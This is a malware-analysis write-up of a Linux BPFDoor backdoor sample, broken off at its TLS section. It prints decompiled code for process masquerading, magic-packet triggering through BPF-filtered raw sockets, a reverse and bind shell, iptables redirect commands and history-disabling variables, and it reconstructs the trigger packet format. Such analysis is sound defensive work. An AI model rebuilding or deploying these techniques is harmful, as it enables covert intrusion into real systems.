


> Sample hash: `ed768dd922742a597257ad684820d7562bb6be215710ec614bd041a22f3d6863`

## Process hiding and daemonization

```c
__int64 __fastcall main(int argc, char **argv, char **envp)
{
  unsigned int seed; // eax
  int v5; // eax
  char hash2[48]; // [rsp+10h] [rbp-60h] BYREF
  char hash1[40]; // [rsp+40h] [rbp-30h] BYREF
  char *src; // [rsp+68h] [rbp-8h]

  strcpy(hash1, "73b9989bb8dd522b8e172f2e985810eb");
  strcpy(hash2, "d46bf5d43cffd7793665d40fc767ed86");
  src = "hpasmlited -f /dev/hpilo";
  file = "/var/run/hpasmlited.pid";
  if ( !access("/var/run/hpasmlited.pid", 4) )
    exit(0);
  if ( !getuid() )
  {
    bzero(&unk_78ABE0, 0x24Au);
    seed = time(0);
    srand(seed);
    strcpy(masquerade_process, src);
    strcpy(h1, hash1);
    strcpy(h2, hash2);
    sub_407CF7(argc, argv, masquerade_process); // hiding process by giving it the name of hpasmlited -f /dev/hpilo
    daemon(0, 0);
    chdir("/");
    sub_4077BD();                               // terminate current process
    signal(SIGCHLD, (__sighandler_t)sig_cld_handler);
    pid = getpid();
    v5 = open(file, 65, 420);
    close(v5);
    signal(SIGCHLD, (__sighandler_t)1);
    pthread_create(&th, 0, (void *(*)(void *))start_routine, 0);
    pthread_create(&th1, 0, (void *(*)(void *))sub_4089BB, 0);
    pthread_create(&th2, 0, (void *(*)(void *))sub_4084F7, 0);
    pthread_join(th, 0);
    pthread_join(th1, 0);
    pthread_join(th2, 0);
  }
  return 0;
}
```

Looking at `main` function, this seems like a set up for the malware to disguise as the process `hpasmlited` in the memory process to prevent detection. Also, it also checks if the `R_OK` (read permission) of the `/var/run/hpasmlited.pid` already existed (which means the malware has already been running) to prevent duplicate execution.

> The `/var/run/${process_name}.pid` contains the `PID` of the `process_name`.

Moreover, in order to `daemonize` the rootkit, the malware needs the root privilege to run by requiring the `uid == 0` in

```c
if ( !getuid() ) {
...
}
```

Before moving to the next function, knowing that `ps -a` reads the process name via reading `/proc/self/comm`, and you can change this by using `prctl(PR_SET_NAME, <desired process name>)`. That's exactly what the `sub_407CF7` do:

```c
__int64 __fastcall sub_407CF7(int argc, char **argv, const char *masquerade_procss)
{
  size_t cur_len; // rax
  size_t size; // [rsp+20h] [rbp-20h]
  int i; // [rsp+2Ch] [rbp-14h]
  int j; // [rsp+2Ch] [rbp-14h]
  int k; // [rsp+2Ch] [rbp-14h]
  int m; // [rsp+2Ch] [rbp-14h]
  char *dest; // [rsp+30h] [rbp-10h]
  char *v12; // [rsp+38h] [rbp-8h]

  size = 0;
  ::dest = *argv;
  for ( i = 0; _environ[i]; ++i )
    size += strlen(_environ[i]) + 1;
  dest = (char *)malloc(size);
  if ( !dest )
    return 0xFFFFFFFFLL;
  for ( j = 0; _environ[j]; ++j )
  {
    cur_len = strlen(_environ[j]);
    memcpy(dest, _environ[j], cur_len + 1);
    _environ[j] = dest;
    dest += strlen(_environ[j]) + 1;
  }
  v12 = *argv;
  for ( k = 0; k < argc; ++k )
    v12 += strlen(argv[k]) + 1;
  for ( m = 0; _environ[m]; ++m )
    v12 += strlen(_environ[m]) + 1;
  memset(::dest, 0, v12 - ::dest);
  strncpy(::dest, masquerade_procss, v12 - ::dest);
  prctl(PR_SET_NAME, masquerade_procss);
  return 0;
}
```

But before the function calls, program perform redirection of the `_environ` into a heap. For a clearer explanation, firstly we need to understand the memory layout of the `main` function arguments region. Usually the `argv` is adjacent to the `extern char** environ` which holds the environment variables. You can use the code snippet below to check:

```c
#include <stdio.h>
#include <string.h>
#include <sys/prctl.h>

extern char **environ;

int main(int argc, char **argv) {
    char *argv_end = argv[argc - 1] + strlen(argv[argc - 1]);
    char *env_start = environ[0];

    printf("argv_end: %p, env_start: %p\n", (void *)argv_end, (void *)env_start);

    return 0;
}
```

So if the original name of the process is shorter than the process name that the attacker want to camouflage the malware as, the `environ` is overwritten. In order to prevent that, the malware redirects the `environ` into heap, and then overwrite the `argv` later.

Here is a visual representation on the environ redirection:

Before `sub_407CF7`:

```
    argv[0] ---> +-------------------------------+
                 | "./malware"                   |\
    argv[1] ---> | "-x"                          | \
    argv[2] ---> | ...                           |  } one contiguous
                 | '\0' separators               | /  argv+environ string area
  environ(char**)| "PATH=/usr/bin:..."           |/
    env[0] ----> | "HOME=/root"                  |
    env[1] ----> | "LANG=C"                      |
                 | ...                           |
                 +-------------------------------+
```

After:

```
  Heap copy for environment:
    new_env_blob  +-------------------------------+
                  | "PATH=/usr/bin:..."           |
                  | "HOME=/root"                  |
                  | "LANG=C"                      |
                  | ...                           |
                  +-------------------------------+
    environ[i] now points into new_env_blob

  Original argv/environ string area (old blob):
                 +-------------------------------+
                 | "hpasmlited -f /dev/hpilo"    |
                 | (rest zeroed)                 |
                 +-------------------------------+
```

Based on the `struct task_struct` which you can see in [vmlinux.h](https://github.com/torvalds/linux/blob/3cd8b194bf3428dfa53120fee47e827a7c495815/tools/perf/util/bpf_skel/vmlinux/vmlinux.h#L102) of the Linux kernel, the API `prctl(PR_SET_NAME, <process name>)` only changes the `comm` field whose value the `/proc/self/comm` stored, but the `/proc/self/cmdline` holds the full list of argument used to start up the program. It lives on the stack region of the process, the kernel simply notes these using

```c
mm_struct->arg_start;
mm_struct->arg_end;
mm_struct->env_start;
mm_struct->env_end;
```

> You can find the definition of the `struct mm_struct` [here](https://github.com/torvalds/linux/blob/3cd8b194bf3428dfa53120fee47e827a7c495815/include/linux/mm_types.h#L1310)

> For more insight on the role of the `struct task_struct` in Linux kernel you can read these [blog1](https://alex-xjk.github.io/post/taskstruct/), [blog2](https://loke.sh/notes/linux-kernel/process-and-task-structure/)

So, by modifying the `argv` it should modify the content of `/proc/self/cmdline` also but strangely when I tried it, it only works on `Ubuntu22` and below.





After that, the malware daemonize itself and closed `stdin`, `stdout`, and `stderr` using `daemon(0,0)`. This makes the malware run as a background service and detach it from its start-up terminal. For the `chdir("/")`, we need to understand that suppose we ran the malware from the directory `~/tmp`, or the `/mnt/usb_drive` the name of the current working directory is written in the `/proc/self/cwd`, the OS applies a lock to that directory. If the users eject the `usb` or tries to `umount`, they will have this error popped up:

```bash
umount: /tmp: target is busy
```

This will definitely raise suspicion. So, changing the working directory is necessary to ensure the `backdoor` persists and run smoothly without raising suspicion.

## C2 initialization

Moving to the thread creation, the malware creates 3 threads. Look into the first one, here is the overview:

```c
int __fastcall tcp_handler(void *a1)
{
  int tmp; // eax
  int protocol; // eax
  size_t v3; // rax
  int v4; // eax
  char *ip; // rax
  uint16_t v6; // ax
  char src[32]; // [rsp+10h] [rbp-9F0h] BYREF
  char dest[8]; // [rsp+30h] [rbp-9D0h] BYREF
  __int64 v9; // [rsp+38h] [rbp-9C8h]
  int v10; // [rsp+40h] [rbp-9C0h]
  _BYTE v11[1840]; // [rsp+50h] [rbp-9B0h] BYREF
  __int16 optval; // [rsp+780h] [rbp-280h] BYREF
  _BYTE *v13; // [rsp+788h] [rbp-278h]
  _BYTE recvmsg[524]; // [rsp+790h] [rbp-270h] BYREF
  int sockfd; // [rsp+99Ch] [rbp-64h]
  int msg_len; // [rsp+9A0h] [rbp-60h]
  __pid_t pid; // [rsp+9A4h] [rbp-5Ch]
  int v18; // [rsp+9A8h] [rbp-58h]
  int v19; // [rsp+9ACh] [rbp-54h]
  int v20; // [rsp+9B0h] [rbp-50h]
  int v21; // [rsp+9B4h] [rbp-4Ch]
  _BYTE *msg; // [rsp+9B8h] [rbp-48h]
  _BYTE *v23; // [rsp+9C0h] [rbp-40h]
  _BYTE *v24; // [rsp+9C8h] [rbp-38h]
  _BYTE *v25; // [rsp+9D0h] [rbp-30h]
  int v26; // [rsp+9DCh] [rbp-24h]
  _BYTE *v27; // [rsp+9E0h] [rbp-20h]
  int v28; // [rsp+9ECh] [rbp-14h]

  v24 = 0;
  v27 = 0;
  qmemcpy(v11, "0", 0x728u);
  optval = 229;
  v13 = v11;
  tmp = socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
  sockfd = tmp;
  if ( tmp > 0 )
  {
    tmp = setsockopt(sockfd, 1, 26, &optval, 0x10u);
    if ( tmp != -1 )
    {
      while ( 1 )
      {
        do
        {
          memset(recvmsg, 0, 0x200u);
          v21 = 0;
          msg_len = recvfrom(sockfd, recvmsg, 0x200u, 0, 0, 0);
          msg = recvmsg;
          v19 = 4 * (recvmsg[0] & 0xF);         // ip_header_length
        }
        while ( v19 <= 19 );
        protocol = (unsigned __int8)msg[9];
        switch ( protocol )
        {
          case 6:
            v23 = &recvmsg[v19];                // tcp_header
            v20 = 4 * (v23[12] >> 4);
            v24 = &recvmsg[v20 + (__int64)v19];
            break;
          case 17:
            v25 = msg + 20;
            v24 = msg + 28;
            break;
          case 1:
            v27 = msg + 20;
            v24 = msg + 28;
            break;
        }
        if ( v24 )
        {
          if ( *((_DWORD *)v24 + 1) == -1 )
            v26 = *((_DWORD *)msg + 3);
          else
            v26 = *((_DWORD *)v24 + 1);
          if ( (unsigned int)sub_4083B0(v24 + 10) || *((_DWORD *)v24 + 6) == -1 || !*((_DWORD *)v24 + 6) )
          {
            pid = fork();
            if ( !pid )
            {
              v28 = 0;
              *(_QWORD *)dest = 0;
              v9 = 0;
              v10 = 0;
              strcpy(src, "/usr/sbin/zabbix_agentd");
              if ( fork() )
                exit(0);
              setsid();
              signal(SIGHUP, 0);
              v3 = strlen(::dest);
              memset(::dest, 0, v3);
              strcpy(::dest, src);
              prctl(PR_SET_NAME, src);
              v4 = sub_4083B0(v24 + 10);
              v28 = v4;
              if ( v4 )
              {
                if ( v4 == 1 )
                {
                  ip = inet_ntoa(*(struct in_addr *)(msg + 12));
                  strcpy(dest, ip);
                  v6 = ntohs(*((_WORD *)v23 + 1));
                  sub_409533((__int64)dest, v6);
                }
              }
              else if ( *((_DWORD *)v24 + 6) == -1 || !*((_DWORD *)v24 + 6) )
              {
                v18 = sub_4079D4(v26, *((_WORD *)v24 + 4));
                if ( v18 > 0 )
                  sub_409E72(v18, 0, 0, 0);
              }
              else
              {
                v26 = *((_DWORD *)v24 + 6);
                *((_DWORD *)v24 + 6) = -1;
                *(_DWORD *)v24 = 21874;
                sub_407AED(v26, v24);
              }
              exit(0);
            }
            waitpid(pid, 0, 1);
          }
          else
          {
            v26 = *((_DWORD *)v24 + 6);
            *((_DWORD *)v24 + 6) = -1;
            *(_DWORD *)v24 = 21874;
            sub_407AED(v26, v24);
          }
        }
      }
    }
  }
  return tmp;
}
```

The malware creates raw tcp socket which means that it must handle the packet from the IP Layer. Look at this snippet:

```c
 tmp = setsockopt(sockfd, 1, 26, &optval, 0x10u);
    if ( tmp != -1 )
    {
      while ( 1 )
      {
        do
        {
          memset(recvmsg, 0, 0x200u);
          v21 = 0;
          msg_len = recvfrom(sockfd, recvmsg, 0x200u, 0, 0, 0);
          msg = recvmsg;
          v19 = 4 * (recvmsg[0] & 0xF);         // ip_header_length
        }
```

After creating the socket and receive the first message. Based on the IP header struct reference [here](https://docs.huihoo.com/doxygen/linux/kernel/3.7/structiphdr.html), I know that it takes the lower 4 bits in the first bytes (The bytes in the package is in Big-Endian), the IP protocol this C2 is using is IPv4 which means the IP header length is 20 bytes, so `v19` is technically the offset of the TCP header of the `recvmsg`. Applying the `ip` type to the first 20 bytes of the `payload`, we got:

```c
        protocol = msg->ip_hdr.ip_p;
        switch ( protocol )
        {
          case 6:
            tcp_hdr = (char *)&recvmsg + tcp_offset;// tcp_header
            data_offset = 4 * ((unsigned __int8)tcp_hdr[12] >> 4);
            payload_data = (char *)&recvmsg + data_offset + (__int64)tcp_offset;
            break;
          case 17:
            v25 = msg->msg;
            v24 = &msg->msg[8];
            break;
          case 1:
            v27 = msg->msg;
            v24 = &msg->msg[8];
            break;
        }
```

Based on the [TCP Wikipedia page](https://en.wikipedia.org/wiki/Transmission_Control_Protocol), we know that offset 12 of the `tcp_hdr` is the data offset which tells where the real payload begins.

Now we start to reconstruct the structure of the C2 payload.

```c
        if ( payload_data )
        {
          if ( *((_DWORD *)payload_data + 1) == -1 )
            s_addr = msg->ip_hdr.ip_src.s_addr;
          else
            s_addr = *((_DWORD *)payload_data + 1);
          if ( (unsigned int)sub_4083B0(payload_data + 10)
            || *((_DWORD *)payload_data + 6) == -1
            || !*((_DWORD *)payload_data + 6) )
```

Look at here, we can see that offset from 4 - 8 is the target IP address of the C2 payload (if it is `0xFFFFFFFF`, the malware just takes the source IP of the packet), then the function `sub_4083B0` process data at offset 10.

```c
__int64 __fastcall sub_4083B0(const char *a1)
{
  size_t v1; // rax
  size_t v3; // rax
  char src[16]; // [rsp+10h] [rbp-70h] BYREF
  char dest[8]; // [rsp+20h] [rbp-60h] BYREF
  __int64 v6; // [rsp+28h] [rbp-58h]
  __int64 v7; // [rsp+30h] [rbp-50h]
  __int64 v8; // [rsp+38h] [rbp-48h]
  __int64 v9; // [rsp+40h] [rbp-40h]
  _QWORD s2[4]; // [rsp+50h] [rbp-30h] BYREF
  char v11; // [rsp+70h] [rbp-10h]
  int v12; // [rsp+7Ch] [rbp-4h]

  v12 = 0;
  memset(s2, 0, sizeof(s2));
  v11 = 0;
  *(_QWORD *)dest = 0;
  v6 = 0;
  v7 = 0;
  v8 = 0;
  v9 = 0;
  strcpy(src, "I5*AYbs@LdaWbsO");
  strcpy(dest, src);
  if ( a1 )
    strncat(dest, a1, 0xEu);
  sub_408309(dest, s2);
  v1 = strlen(h1);
  v12 = memcmp(h1, s2, v1);
  if ( !v12 )
    return 0;
  v3 = strlen(h2);
  v12 = memcmp(h2, s2, v3);
  if ( v12 )
    return 2;
  else
    return 1;
}
```

```c
_BYTE *__fastcall sub_408309(char *in, _BYTE *out)
{
  size_t v2; // rax
  _BYTE md5_output[16]; // [rsp+10h] [rbp-70h] BYREF
  unsigned int md5_ctx[23]; // [rsp+20h] [rbp-60h] BYREF
  int i; // [rsp+7Ch] [rbp-4h]

  i = 0;
  md5_context_init(md5_ctx);
  v2 = strlen(in);
  md5_update_ctx(md5_ctx, in, v2);
  md5_digest(md5_output, md5_ctx);
  for ( i = 0; i <= 15; ++i )
    snprintf(&out[2 * i], 3u, "%02x", (unsigned __int8)md5_output[i]);
  out[32] = 0;
  return out + 32;
}
```

Here it hash the 14-byte password with salt `"I5*AYbs@LdaWbsO"` using MD5 and then check with two different hash. This proves that this is a multi-stage backdoor. Analyzing the case that the hash match the hash1 `73b9989bb8dd522b8e172f2e985810eb`.

```c
          else
          {
            s_addr = *((_DWORD *)payload_data + 6);
            *((_DWORD *)payload_data + 6) = -1;
            *(_DWORD *)payload_data = 'Ur';
            sub_407AED(s_addr, payload_data);
          }
```

In `sub_407AED`:

It crafts a ICMP packet:

```c
s.icmp_type = 8;
s.icmp_code = 0;
s.icmp_cksum = 0;
s.icmp_hun.ih_idseq.icd_seq = 1234;
s.icmp_hun.ih_idseq.icd_id = getpid();
```

then hiding data in the ping:

```c
v8 = 28;
...
memcpy(&s.icmp_dun, a2, v8);
```

Which is the `rU` strings in the passed into the payload data above then it calculates the checksum before sending that ICMP packet back to the C2 server

```c
v3 = sub_407A5F((unsigned __int16 *)&p_s->icmp_type, v8 + 8);
p_s->icmp_cksum = v3
```

This behavior is a way to notify the C2 server that the malware has successfully been deployed in the victim's device. Move to the second phase, when the password hash matches the second hash. From the information I gathered above, the construct payload would look something like this:

```c
#pragma pack(push, 1)
struct c2_payload
{
  uint32_t command_id;
  uint32_t target_ip;
  uint16_t target_port;
  char password[14];
  uint32_t action_flag;
};
#pragma pack(pop)
```

```c
if ( (unsigned int)sub_4083B0(payload_data->password)
            || payload_data->action_flag == -1
            || !payload_data->action_flag )
          {
            pid = fork();
            if ( !pid )
            {
              v28 = 0;
              *(_QWORD *)src_ip = 0;
              v9 = 0;
              v10 = 0;
              strcpy(src, "/usr/sbin/zabbix_agentd");
              if ( fork() )
                exit(0);
              setsid();
              signal(SIGHUP, 0);
              v3 = strlen(dest);
              memset(dest, 0, v3);
              strcpy(dest, src);
              prctl(PR_SET_NAME, src);
              v4 = sub_4083B0(payload_data->password);
              v28 = v4;
              if ( v4 )
              {
                if ( v4 == 1 )
                {
                  ip = inet_ntoa(msg->ip_hdr.ip_src);
                  strcpy(src_ip, ip);
                  dest_port = ntohs(*((_WORD *)tcp_hdr + 1));
                  sub_409533((__int64)src_ip, dest_port);
                }
              }
              else if ( payload_data->action_flag == -1 || !payload_data->action_flag )
              {
                v18 = sub_4079D4(s_addr, payload_data->target_port);
                if ( v18 > 0 )
                  sub_409E72(v18, 0, 0, 0);
              }
              else
              {
                s_addr = payload_data->action_flag;
                payload_data->action_flag = -1;
                payload_data->command_id = 'Ur';
                ping_back(s_addr, (const char *)payload_data);
              }
              exit(0);
            }
            waitpid(pid, 0, 1);
          }
```

It forks out a process which is camouflaged as `/usr/sbin/zabbix_agentd`:

```c
void __fastcall sub_409533(__int64 source_ip, __int64 dest_port)
{
  char v2[48]; // [rsp+10h] [rbp-740h] BYREF
  char allowed_ip_packet[48]; // [rsp+40h] [rbp-710h] BYREF
  char delete_redirect[96]; // [rsp+70h] [rbp-6E0h] BYREF
  char add_redirect[96]; // [rsp+D0h] [rbp-680h] BYREF
  char v6[512]; // [rsp+130h] [rbp-620h] BYREF
  char command[512]; // [rsp+330h] [rbp-420h] BYREF
  char s[516]; // [rsp+530h] [rbp-220h] BYREF
  unsigned int redirect_p; // [rsp+734h] [rbp-1Ch] BYREF
  int fd; // [rsp+738h] [rbp-18h]
  int redirect_port_fd; // [rsp+73Ch] [rbp-14h]

  memset(s, 0, 0x200u);
  memset(command, 0, sizeof(command));
  memset(v6, 0, sizeof(v6));
  strcpy(add_redirect, "/sbin/iptables -t nat -A PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d");
  strcpy(delete_redirect, "/sbin/iptables -t nat -D PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d");
  strcpy(allowed_ip_packet, "/sbin/iptables -I INPUT -p tcp -s %s -j ACCEPT");
  strcpy(v2, "/sbin/iptables -D INPUT -p tcp -s %s -j ACCEPT");
  redirect_port_fd = scan_port((int *)&redirect_p);
  if ( redirect_port_fd != -1 )
  {
    snprintf(s, 0x200u, allowed_ip_packet, source_ip);
    snprintf(v6, 0x200u, v2, source_ip);
    system(s);
    sleep(1u);
    memset(s, 0, 0x200u);
    snprintf(s, 0x200u, add_redirect, source_ip, (unsigned int)dest_port, redirect_p);
    snprintf(command, 0x200u, delete_redirect, source_ip, (unsigned int)dest_port, redirect_p);
    system(s);
    sleep(1u);
    fd = sub_409422(redirect_port_fd);
    if ( fd >= 0 )
    {
      sub_409E72(fd, command, v6, 1);
    }
    else
    {
      system(command);
      system(v6);
    }
    close(fd);
  }
}
```

Here comes the redirection rules, the malware scans for open port in range `42391 - 43390`, those the ports not usually being monitored by WAFs, or Intrusion Detection systems (IDS). Then the malware used `iptables` to re-config the network to accept all tcp packets from the C2-server IP address and route the packets sent to the destination port of the magic packet (for example 443, so the traffic looks like normal HTTPS) to the `redirect_port` found in the scan port function. Then, in the `sub_409422` the redirected port wait for incoming connection from the C2-server within a 10-second time interval.

```c
  timeout.tv_sec = 10;
  timeout.tv_usec = 0;
  v7 = select(a1 + 1, &readfds, 0, 0, &timeout);
  if ( v7 <= 0 )
  {
    close(a1);
    return 0xFFFFFFFFLL;
  }
  else
  {
    addr_len = 16;
    v6 = accept(a1, &addr, &addr_len);
    if ( v6 == -1 )
    {
      return 0xFFFFFFFFLL;
    }
```

After having the accepted client socket comes the main reverse shell payload inside:

```c
    if ( fd >= 0 )
    {
      sub_409E72(fd, command, v6, 1);
    }
```

## The BPF filter

There is one thing I skipped above, which is the `setsockopt(sockfd, 1, 26, &optval, 0x10u)`. Level `1` is `SOL_SOCKET` and option `26` is `SO_ATTACH_FILTER`, so the `optval` is actually a `struct sock_fprog`:

```c
struct sock_fprog {
    unsigned short len;      // 229 (0xE5)
    struct sock_filter *filter; // v11, 0x728 bytes copied from .rodata
};

struct sock_filter {
    __u16 code;
    __u8  jt;
    __u8  jf;
    __u32 k;
};
```

$229 \times 8 = 1832 = \text{0x728}$, which matches the size of the `qmemcpy`. This is the reason why the malware is called **BPFDoor**. A raw socket receives a copy of every packet of that protocol that hit the machine, and that would be very noisy. With a classic BPF program attached, the kernel itself drops every packet that does not look like a C2 packet before it ever reaches the `recvfrom`. This means the backdoor does not open any port, so `netstat` or `ss` can't see it listening anywhere.

The filter is located at `0x505780` for the TCP thread, `0x505EC0` for the UDP thread and `0x506600` for the ICMP thread. I dumped all three of them through IDA and they are byte for byte identical, so I wrote a small cBPF disassembler to read it:

```py
import struct

SZ = {0x00: "w", 0x08: "h", 0x10: "b"}
ALU = {0x00: "add", 0x10: "sub", 0x40: "or", 0x50: "and", 0x60: "lsh", 0x70: "rsh"}
JMP = {0x00: "ja", 0x10: "jeq", 0x20: "jgt", 0x30: "jge", 0x40: "jset"}

def dis(i, code, jt, jf, k):
    cls = code & 7
    src = "x" if code & 8 else f"#0x{k:x}"
    if cls in (0, 1):
        r = "ld" if cls == 0 else "ldx"
        mode, sz = code & 0xe0, SZ[code & 0x18]
        if mode == 0x00: return f"{r} #0x{k:x}"
        if mode == 0x20: return f"{r}{sz} [{k}]"
        if mode == 0x40: return f"{r}{sz} [x + {k}]"
        if mode == 0x60: return f"{r} M[{k}]"
        if mode == 0xa0: return f"ldxb 4*([{k}]&0xf)"
    if cls == 2: return f"st M[{k}]"
    if cls == 3: return f"stx M[{k}]"
    if cls == 4: return f"{ALU[code & 0xf0]} {src}"
    if cls == 5: return f"{JMP[code & 0xf0]} {src}, jt {i + 1 + jt}, jf {i + 1 + jf}"
    if cls == 6: return f"ret #{k}"
    if cls == 7: return "tax" if (code & 0xf8) == 0 else "txa"

bpf = open("filter.bin", "rb").read()
for i in range(len(bpf) // 8):
    print(f"({i:03d})", dis(i, *struct.unpack("<HBBI", bpf[i*8:i*8+8])))
```

The output is quite long, but it is just 4 blocks. Each block ends with a jump to `(227) ret #65535` (accept the whole packet) if the check passes, otherwise it falls to the next block, and the last one falls to `(228) ret #0` (drop). Since the socket is `AF_INET`, offset 0 is the start of the IP header. Here is the first block:

```
(012) ldb [0]
(013) and #0xf0
(014) jeq #0x40, jt 15, jf 33          ; IPv4 ?
(015) ldb [9]
(016) jeq #0x11, jt 17, jf 33          ; protocol == UDP ?
(017) ldh [6]
(018) jset #0x1fff, jt 33, jf 19       ; not a fragment
(019) ld #0x8
(020) st M[0]
(021) ldxb 4*([0]&0xf)                 ; x = IP header length
(022) ld M[0]
(023) add x
(024) tax                              ; x = ihl + 8 (skip UDP header)
(025) ldh [x + 0]                      ; first 2 bytes of the UDP payload
...
(027) ld #0x7255
...
(032) jeq #0x0, jt 227, jf 33          ; == 0x7255 -> accept
```

> The instructions `(000) - (011)` also check for the IPv6 next header (offset 6, and offset 40 for the `0x2c` fragment header), this looks like the output of `tcpdump -dd` with an `ip or ip6` expression. On an `AF_INET` raw socket it is useless, but it tells us that the malware writer compiled the filter from a `pcap` expression instead of writing it by hand.

Doing the same thing for the other blocks, I got the 4 conditions that let a packet through:

| Block | Protocol | Condition |
|---|---|---|
| `033 - 080` | ICMP | ICMP type is `8` (echo request) **and** 2 bytes at `ihl + 8` == `0x7255` |
| `000 - 032` | UDP | 2 bytes at `ihl + 8` (UDP payload) == `0x7255` |
| `081 - 150` | TCP | 2 bytes at `ihl + tcp_doff` (TCP payload) == `0x5293` |
| `151 - 226` | TCP | 4 bytes at `ihl + tcp_doff + 26` == `0x39393939` (`"9999"`) |

For the TCP blocks, the filter computes the TCP header length itself with `ldb [x + 12]`, `and #0xf0`, `rsh #2`, which is the same `4 * (tcp_hdr[12] >> 4)` we saw in the decompiled code. The value is loaded with `ldh` which is Big-Endian, so `0x7255` in the packet is the bytes `72 55`, that is the string `"rU"`. Now the line `*(_DWORD *)payload_data = 'Ur'` in the ping back code makes more sense: the reply carries the same `"rU"` magic so the operator can filter it on his side.

So the `command_id` I guessed before is actually a magic number, and the updated struct looks like this:

```c
#pragma pack(push, 1)
struct magic_packet
{
  uint16_t magic;       // 0x7255 ("rU") for UDP/ICMP, 0x5293 for TCP
  uint16_t padding;
  uint32_t target_ip;   // 0xFFFFFFFF -> use the source IP of the packet
  uint16_t target_port; // network byte order, used by the reverse shell
  char password[14];    // MD5("I5*AYbs@LdaWbsO" + password)
  uint32_t ping_ip;     // 0 or 0xFFFFFFFF -> shell, otherwise ICMP ping back
};
#pragma pack(pop)
```

## Three threads, three protocols

Now coming back to `main`, the other 2 threads are `sub_4089BB` and `sub_4084F7`. They have exactly the same size (`0x4C4` bytes) as the TCP handler, the only differences are the protocol of the raw socket and the address of the filter:

```c
// sub_4089BB (upd_handler)
qmemcpy(v11, qword_505EC0, 0x728u);
result = socket(AF_INET, SOCK_RAW, IPPROTO_UDP);

// sub_4084F7 (icmp_handler)
qmemcpy(v11, qword_506600, 0x728u);
result = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP);
```

So the operator can wake up the backdoor with whatever protocol that the firewall in front of the victim allows. One small bug that I noticed: in the UDP and ICMP handlers, `tcp_hdr` (`v23`) is never assigned because it is only set in `case 6`, but the bind shell branch still calls `ntohs(*((_WORD *)v23 + 1))`. So the iptables redirect mode only works reliably when it is triggered by a TCP packet, which make sense since you need a TCP destination port to redirect anyway.

## The dispatch logic

With the return value of `sub_4083B0` (`0` = hash1, `1` = hash2, `2` = wrong password) and the `ping_ip` field, there are 4 cases:

| Password | `ping_ip` | What happens |
|---|---|---|
| hash1 | not `0` and not `0xFFFFFFFF` | No fork, `ping_back` sends an ICMP echo with the `"rU"` magic to `ping_ip` |
| hash1 | `0` or `0xFFFFFFFF` | Fork, connect back to `target_ip:target_port`, TLS **client** shell |
| hash2 | anything | Fork, iptables redirect, wait on port `42391 - 43390`, TLS **server** shell |
| wrong | anything | Fork, the child does nothing and exits |

So the ping back is not only a "hello I'm alive", it can be sent to any IP that the operator puts in `ping_ip`. It is a cheap way to check if an implant is still alive without opening any TCP connection.

The reverse connect is done by `sub_4079D4`, a very simple TCP client:

```c
__int64 __fastcall sub_4079D4(int ip, __int16 port)
{
  struct sockaddr s; // [rsp+10h] [rbp-20h] BYREF
  int fd; // [rsp+2Ch] [rbp-4h]

  bzero(&s, 0x10u);
  *(_DWORD *)&s.sa_data[2] = ip;
  fd = socket(AF_INET, SOCK_STREAM, 0);
  if ( fd == -1 )
    return 0xFFFFFFFFLL;
  s.sa_family = AF_INET;
  *(_WORD *)s.sa_data = port;
  if ( connect(fd, &s, 0x10u) != -1 )
    return (unsigned int)fd;
  close(fd);
  return 0xFFFFFFFFLL;
}
```

Notice that `target_port` is used directly without `htons`, so the operator must put it in the packet in network byte order already.

## The shell

Both modes end up in `sub_409E72(fd, delete_redirect, delete_accept, is_server)`. First, it prepares the environment for the shell:

```c
  strcpy(v20, "/usr/sbin/zabbix_agentd");
  argv[0] = v20;
  argv[1] = 0;
  strcpy(path, "/bin/bash");
  strcpy(v16, "HOME=/tmp");
  strcpy(v15, "PS1=[\\u@\\h \\W]\\\\$ ");
  strcpy(v14, "HISTFILE=/dev/null");
  strcpy(v13, "MYSQL_HISTFILE=/dev/null");
  strcpy(v12, "PATH=/bin:/usr/kerberos/sbin:/usr/kerberos/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin:./bin");
  strcpy(v11, "vt100");
  ...
  if ( iptables_delete_routing )
    system(iptables_delete_routing);
  if ( iptable_delete_allowance )
    system(iptable_delete_allowance);
```

The `/bin/bash` is executed with `argv[0] = /usr/sbin/zabbix_agentd`, so in `ps` the shell also looks like the Zabbix agent. `HISTFILE=/dev/null` and `MYSQL_HISTFILE=/dev/null` make sure that nothing the operator types is saved in `.bash_history` or `.mysql_history`. The interesting part is that the two `iptables -D` commands are executed right after the connection is accepted. Since the connection is already established, the NAT conntrack entry keeps it alive, so the firewall rules only exist for around 2 seconds. If the administrator checks `iptables -L` later, there is nothing there.

> The `PATH` has `/usr/kerberos/sbin` and `/usr/X11R6/bin`, these directories only exist on old RHEL/CentOS, which hints the targets of this sample.

### TLS layer

